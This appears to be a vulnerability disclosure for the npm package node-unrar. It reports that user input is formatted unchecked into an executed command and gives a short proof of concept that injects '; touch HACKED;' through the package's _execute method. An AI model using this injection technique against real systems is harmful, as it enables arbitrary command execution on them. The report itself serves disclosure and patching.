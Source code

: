 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var Unrar = require("node-unrar");
var rar = new Unrar("/path/to/file.rar");

rar._execute([], "; touch HACKED;", function () {});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i node-unrar # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created
